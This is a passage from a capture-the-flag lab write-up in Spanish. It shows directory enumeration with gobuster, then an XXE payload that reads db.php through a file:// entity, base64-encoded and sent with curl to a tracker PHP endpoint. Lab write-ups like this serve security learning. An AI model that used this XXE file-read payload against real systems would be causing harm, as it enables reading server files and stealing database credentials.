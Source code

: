 ```
# gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 60 -x php,txt,html -u http://10.10.11.100/

/resources            (Status: 301) [Size: 316] [--> http://10.10.11.100/resources/]
/index.php            (Status: 200) [Size: 25169]
/assets               (Status: 301) [Size: 313] [--> http://10.10.11.100/assets/]
/portal.php           (Status: 200) [Size: 125]
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.100/css/]
/db.php               (Status: 200) [Size: 0]
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.100/js/]
/server-status        (Status: 403) [Size: 277]
```

## Acceso a la máquina

En esta última búsqueda encuentro un archivo "db.php", que podría tratarse de un fichero que realizase la conexión a la base de datos, conteniendo así las credenciales de acceso a esta en texto claro. Por tanto, intento leerlo aprovechando la vulnerabilidad XXE descubierta anteriormente.

```
# cat xxe.xml

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///var/www/html/db.php"> ]>
        <bugreport>
                <title>Proof</title>
                <cwe>&xxe;</cwe>
                <cvss>9.4</cvss>
                <reward>30</reward>
        </bugreport>

# cat xxe.xml | base64 -w 0; echo

PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iSVNPLTg4NTktMSI/Pgo8IURPQ1RZUEUgZm9vIFsgPCFFTlRJVFkgeHhlIFNZU1RFTSAiZmlsZTovLy92YXIvd3d3L2h0bWwvZGIucGhwIj4gXT4KICAgICAgICA8YnVncmVwb3J0PgogICAgICAgICAgICAgICAgPHRpdGxlPlByb29mPC90aXRsZT4KICAgICAgICAgICAgICAgIDxjd2U+Jnh4ZTs8L2N3ZT4KICAgICAgICAgICAgICAgIDxjdnNzPjkuNDwvY3Zzcz4KICAgICAgICAgICAgICAgIDxyZXdhcmQ+MzA8L3Jld2FyZD4KICAgICAgICA8L2J1Z3JlcG9ydD4K

# curl -s --data-urlencode "data=PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iSVNPLTg4NTktMSI/Pgo8IURPQ1RZUEUgZm9vIFsgPCFFTlRJVFkgeHhlIFNZU1RFTSAiZmlsZTovLy92YXIvd3d3L2h0bWwvZGIucGhwIj4gXT4KICAgICAgICA8YnVncmVwb3J0PgogICAgICAgICAgICAgICAgPHRpdGxlPlByb29mPC90aXRsZT4KICAgICAgICAgICAgICAgIDxjd2U+Jnh4ZTs8L2N3ZT4KICAgICAgICAgICAgICAgIDxjdnNzPjkuNDwvY3Zzcz4KICAgICAgICAgICAgICAgIDxyZXdhcmQ+MzA8L3Jld2FyZD4KICAgICAgICA8L2J1Z3JlcG9ydD4K" http://10.10.11.100/tracker_diRbPr00f314.php

If DB were ready, would have added:
<table>
  <tr>
    <td>Title:</td>
    <td>Proof</td>
  </tr>
  <tr>
    <td>CWE:</td>
    <td>
</td>
  </tr>
  <tr>
    <td>Score:</td>
    <td>9.4</td>
  </tr>
  <tr>
    <td>Reward:</td>
    <td>30</td>
  </tr>
```